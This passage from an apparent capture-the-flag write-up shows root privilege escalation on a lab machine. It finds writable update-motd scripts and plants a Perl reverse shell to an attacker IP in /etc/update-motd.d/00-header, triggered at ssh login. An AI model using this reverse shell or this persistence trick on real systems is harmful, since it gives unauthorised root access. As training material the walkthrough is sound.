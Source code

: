 As for writable scripts, LinENum does not explicitly look for them. So let's run this command to find them.

`find / -writable -xdev 2>/dev/null | grep -v -E "/home/sysadmin|/tmp|/lib"`

* `xdev` - avoids different filesystems like /proc and /run
* `2>/dev/null` - suppresses error messages

The second part of the command is an **inverse grep** to help us filter out folders we are not interested in. Vary this part to fit your purpose. Since I have already manually looked through /home/sysadmin and /tmp, I exclude them here.

The results:

```
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/webadmin/note.txt
/var/lock
```

Yup, the update-motd.d looks interesting. Let's learn more.

**What is update-motd?**

Message Of The Day (MOTD) is the message that greets you when you log in. And update-motd is a tool to make the MOTD more dynamic.

* https://wiki.ubuntu.com/UpdateMotd
* http://manpages.ubuntu.com/manpages/bionic/man5/update-motd.5.html

From the manpages above:

> Executable scripts in /etc/update-motd.d/* are executed by pam_motd(8) **as the root user at
       each  login**,  and  this  information  is  concatenated in /run/motd.dynamic.

Since we can write to the MOTD scripts, we can escalate to root by placing a reverse shell code in the MOTD scripts.

I used vi to add a Perl reverse shell code (what we used above for our initial shell) to the 00-header script.

`vi /etc/update-motd.d/00-header`

Let's double check to make sure that our code is in the file.

```
$ cat 00-header
#!/bin/sh
<SNIP>
echo "\nWelcome to Xh4H land \n"
perl -e 'use Socket;$i="10.10.X.X";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Now, because the scripts are executed at each login, let's ssh into the machine to trigger the execution.
